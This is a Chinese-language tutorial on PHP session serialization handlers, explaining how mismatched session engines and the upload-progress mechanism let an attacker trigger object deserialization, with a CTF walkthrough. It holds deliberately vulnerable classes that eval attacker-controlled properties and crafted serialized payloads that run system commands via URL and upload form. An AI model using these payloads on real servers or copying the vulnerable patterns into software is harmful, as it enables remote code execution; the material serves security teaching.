






# 一、PHP Session机制

当通过`session_start()`开启会话后，PHP根据客户端的PHPSESSID获取当前会话数据
（即session文件，文件名为sess_PHPSESSID值，位于temp文件夹下）


随便打开一个看看，会发现里面其实是序列化的值
PHP会自动解析session文件的内容，并填充到`$_SESSION`超级全局变量中。

若客户端未发送PHPSESSID，则创建一个由32个字母组成的PHPSESSID，并返回set-cookie。

PHP解析session文件的过程，实际上就是反序列化的过程

对此，PHP有三种**session处理引擎**：php、php_serialize、php_binary

```php
<?php
//ini_set("session.serialize_handler", "php");
//ini_set("session.serialize_handler", "php_serialize");
//ini_set("session.serialize_handler", "php_binary");
session_start();
$_SESSION['doge'] = "Taco";
var_dump($_SESSION);
```

> php:  doge|s:4:"Taco";       // 键名|after serialize
>
> php_serialize:  a:1:{s:4:"doge";s:4:"Taco";}       // array after serialize
>
> php_binary:  <0x04>doges:4:"Taco";   // 键名长度对应的ASCII字符+键名s+after serialize

`php_ini`中可以设置`session.serialize_handler`
PHPINFO可以查看


# 二、session引擎利用

```php
<?php
// test.php
ini_set("session.serialize_handler", "php_serialize");
session_start();
class BackDoor {
	public $cmd;
	function __wakeup(){
		eval($this->cmd);
	}
}
$a = $_SESSION['hack'];
var_dump($a);
unserialize($a);
```

```php
<?php
// fun.php
ini_set("session.serialize_handler", "php_serialize");
session_start();
$_SESSION['hack']=$_GET['hack'];
```

构造payload

```php
<?php
class BackDoor {
    public $cmd="system('calc');";
}
echo serialize(new BackDoor());
// O:8:"BackDoor":1:{s:3:"cmd";s:15:"system('calc');";}
```

接着访问`/fun.php?hack=O:8:"BackDoor":1:{s:3:"cmd";s:15:"system('calc');";}`
序列化字符串被记录到session文件中。



接着访问test.php，`$_SESSION['hack']`被取出进行反序列化，执行`__wakeup`、getshell

上面的案例中，比较鸡肋的地方就是需要有明确的`unserialize($a)`
为什么呢？session引擎自动反序列化的确是有的，但我们传入的序列化字符串是作为`string`反序列化的，而不是本身序列化字符串的反序列化（说得可能有点绕）

看看下面的例子，当两个php文件使用不同的session引擎，会碰撞出什么火花

```php
<?php
// test.php
ini_set("session.serialize_handler", "php");
session_start();
class BackDoor {
	public $cmd;
	function __wakeup(){
		eval($this->cmd);
	}
}
```

```php
<?php
// fun.php
ini_set("session.serialize_handler", "php_serialize");
session_start();
$_SESSION['hack']=$_GET['hack'];
```

上面提到了session引擎中，`php引擎`以`|`作为键名和序列化字符串的分界

而`php_serialize引擎`处理后的就是序列化的`$_SESSION`数组

构造恶意序列化字符串

```php
<?php
class BackDoor {
    public $cmd="phpinfo();";
}
echo serialize(new BackDoor());
// |O:8:"BackDoor":1:{s:3:"cmd";s:10:"phpinfo();";}
// 前面加了个竖线|
```

访问`/fun.php?hack=|O:8:%22BackDoor%22:1:{s:3:%22cmd%22;s:10:%22phpinfo();%22;}`

得到的session文件内容如下：
`a:1:{s:4:"hack";s:48:"|O:8:"BackDoor":1:{s:3:"cmd";s:10:"phpinfo();";}";}`

接着访问`test.php`，成功执行`phpinfo`
由于其使用`php引擎`，`竖线|`左边变成键名，右边变成序列化字符串，引擎会自动将其反序列化。

# 三、upload_process机制

上面两个案例中，服务端Session中存储了我们传入的值`$_SESSION['hack']=$_GET['hack'];`

若程序中没有出现上面类似的代码，是不是没办法反序列化了？

其实php存在一个`upload_process`机制，会自动在$_SESSION中创建一个键值对



感觉就是通过这个机制来做出前端那种**上传进度条**的效果

需要在php.ini配置

> session.upload_progress.enabled=On
>
> session.upload_progress.cleanup=Off  // 防止把生成的$_SESSION中的键值对给清理掉

我们需要先上传文件，同时POST一个与`session.upload_process.name`的同名变量

直接看一道经典的CTF题

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }

    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('__FILE__'));
}
```

访问`http://127.0.0.1/test/test.php?phpinfo`



构造payload

```php
<?php
class OowoO
{
    public $mdzz="system('whoami');";
}
$a = new OowoO();
echo serialize($a);
// O:5:"OowoO":1:{s:4:"mdzz";s:17:"system('whoami');";}
```

编写上传文件的表单

```html
<form action="http://127.0.0.1/test/test.php" method="post" enctype="multipart/form-data">
    <input type="file" name="myFile" />
    <input type="submit" value="提交" />
</form>
```



此时再看看session文件

`a:1:{s:22:"upload_progress_aaaaaa";a:5:{s:10:"start_time";i:1666103954;s:14:"content_length";i:431;s:15:"bytes_processed";i:431;s:4:"done";b:1;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:6:"myFile";s:4:"name";s:53:"|O:5:"OowoO":1:{s:4:"mdzz";s:17:"system("whoami");";}`

由于使用的是`php-session引擎`，将`竖线|`右边的值自动反序列化
